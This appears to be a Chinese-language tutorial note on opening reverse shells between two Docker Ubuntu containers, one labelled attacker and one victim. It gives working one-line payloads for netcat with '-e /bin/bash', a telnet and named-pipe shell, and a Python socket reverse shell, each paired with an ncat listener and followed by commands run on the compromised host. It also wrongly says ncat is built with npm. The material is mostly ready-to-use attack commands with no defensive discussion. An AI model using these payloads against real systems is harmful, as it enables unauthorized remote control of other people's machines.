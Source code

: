## 反弹shell

### 1. 利用netcat反弹shell

需要两台linux，这里用docker起了两个ubuntu。netcat在一般的linux发行版都有，不过在ubuntu上需要使用npm构建的ncat。

```shell
apt install ncat
```

起的两个ubuntu上，一个作为attacker，一个作为victim。
其中在attacker上输入：
```shell
ncat -lvvp 2333
```
开启本地监听

在victim上：
```shell
ncat 172.17.0.2 2333 -e /bin/bash
```
没有bash用sh，ncat后跟的是attacker的ip和监听的端口

随后在attacker上即可反弹shell，效果如下

![](netcat_reverse_shell.png)
可以看到，在victim上执行了ncat操作，反弹shell到attacker，其中
```shell
ls
```
是我在攻击机上弹shell成功后输入的命令。

### 2. 利用telnet弹shell

与netcat上类似，在攻击机上开启端口监听：
```shell
ncat -lvvp 2333
```

然后目标机主动连接攻击机：
```shell
mknod a p; telnet 172.17.0.2 2333 0<a | /bin/bash 1>a
```
![](telnet_reverse_shell_2.png)

其中，
```shell
whoami
ls
```
是弹shell后输入的命令

### 3. python反弹shell

提示没python先安装python
```shell
apt install python3
```

攻击机上开启端口监听

```shell
ncat -lvvp 2333
```

目标机主动连接攻击机

```shell
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.17.0.2",2333));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

会直接出现sh提示符，如图：

![](python_reverse_shell.png)

其中

```shell
ls
whoami
ifconfig
```
为反弹shell后输入的命令，可以看到ip显示的是目标机的172.17.0.3。
